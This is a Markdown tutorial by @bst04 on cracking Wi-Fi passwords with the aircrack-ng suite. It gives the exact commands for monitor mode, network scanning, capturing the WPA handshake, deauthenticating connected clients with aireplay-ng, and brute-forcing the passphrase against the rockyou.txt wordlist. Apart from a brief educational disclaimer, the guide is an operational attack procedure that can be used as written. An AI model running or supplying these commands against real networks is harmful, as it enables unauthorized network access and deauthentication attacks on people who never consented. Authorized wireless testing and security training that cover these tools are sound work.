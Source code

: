 ```yaml
---
hidden: true
---
```


# How to Crack a Wifi

This tutorial demonstrates how to crack a Wi-Fi network using a wireless adapter in monitor mode and the `aircrack-ng` suite. Created by @bst04.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
**Disclaimer:** This guide is intended for educational purposes only. Unauthorized access to any network is illegal and unethical. Use this knowledge responsibly and ethically.
{% endhint %}

***

### 📌 Basic Information

#### 1. Network Protocols

Understanding the protocols used in Wi-Fi networks is essential:

* **WEP (Wired Equivalent Privacy):** An obsolete protocol with significant security flaws.
* **WPA (Wi-Fi Protected Access):** Improved security over WEP but still vulnerable to weak passwords.
* **WPA2:** More secure than WPA, using AES/PSK encryption. Still susceptible to brute-force attacks if weak passwords are used.
* **WPA3:** The latest standard with enhanced protection against brute-force attacks. However, not all networks have adopted it yet.

#### 2. Encryption and Authentication Methods

* **TKIP (Temporal Key Integrity Protocol):** Legacy encryption with dynamic keys per packet; vulnerable to brute-force attacks.
* **AES (Advanced Encryption Standard):** A secure symmetric encryption method widely used in modern Wi-Fi networks.
* **PSK (Pre-Shared Key):** Commonly used for home networks, where a shared key is used for authentication. Vulnerable to brute-force attacks if the password is weak.

***

### 📋 Requirements

Before proceeding, ensure you have the following:

1. **Aircrack-ng Suite:** Installed on your system.
2. **Wireless Adapter Compatible with Monitor Mode:** Ensure your adapter supports packet injection and monitor mode.

***

### 🚀 Step-by-Step Process

#### Step 1: Install Aircrack-ng

If you're not using Kali Linux, you'll need to install the `aircrack-ng` suite. Run the following command in your terminal:

```bash
sudo apt-get update
sudo apt-get install aircrack-ng
```

_Note:_ If you're using Kali Linux, `aircrack-ng` is pre-installed.

***

#### Step 2: Enable Monitor Mode

To capture packets from the target network, your wireless adapter must be in monitor mode. First, identify your wireless interface by running:

```bash
ip addr
```

Once you know the interface name (e.g., `wlan0`), enable monitor mode:

```bash
sudo airmon-ng start [interface]
```

_Example:_\
If your interface is `wlan0`, run:

```bash
sudo airmon-ng start wlan0
```

This will create a new interface, typically named `wlan0mon`.

***

#### Step 3: Scan for Wi-Fi Networks

Use `airodump-ng` to scan for nearby Wi-Fi networks:

```bash
sudo airodump-ng [interface + mon]
```

_Example:_\
If your monitor mode interface is `wlan0mon`, run:

```bash
sudo airodump-ng wlan0mon
```

This will display a list of available networks, including their BSSID (MAC address), channel, and encryption type. Note down the details of the target network.

***

#### Step 4: Capture the Handshake

Focus on the target network by capturing its handshake. Use the following command:

```bash
sudo airodump-ng -c [channel] --bssid [BSSID] -w [output file] [interface + mon]
```

_Example:_\
If the target network is on channel 6 with BSSID `00:11:22:33:44:55`, run:

```bash
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w capture wlan0mon
```

Leave this process running until the handshake is captured. You can verify the capture by checking the output file (`capture-01.cap`).

To speed up the handshake capture, deauthenticate connected clients using `aireplay-ng`:

```bash
sudo aireplay-ng -0 5 -a [BSSID] -c [STATION] [interface + mon]
```

_Example:_\
If the station (connected device) is `66:77:88:99:AA:BB`, run:

```bash
sudo aireplay-ng -0 5 -a 00:11:22:33:44:55 -c 66:77:88:99:AA:BB wlan0mon
```

***

#### Step 5: Crack the Password

Once you have the handshake file, use `aircrack-ng` to attempt cracking the password. Provide a wordlist for brute-forcing:

```bash
sudo aircrack-ng -w [wordlist file] [handshake file]
```

_Example:_\
If your wordlist is `rockyou.txt` and the handshake file is `capture-01.cap`, run:

```bash
sudo aircrack-ng -w rockyou.txt capture-01.cap
```

The tool will try each password in the wordlist until it finds a match or exhausts the list.

***

### 🛠 Tips and Best Practices

1. **Use a Strong Wordlist:** Tools like `hashcat` or online resources provide comprehensive wordlists.
2. **Optimize Your Wireless Adapter:** Ensure your adapter is compatible with packet injection and has good signal reception.
3. **Be Patient:** Cracking strong passwords may take time, depending on the complexity and length of the passphrase.

***

### Conclusion

By following these steps, you can learn how to crack a Wi-Fi network using `aircrack-ng`. Remember to use this knowledge responsibly and within legal boundaries. Happy learning!
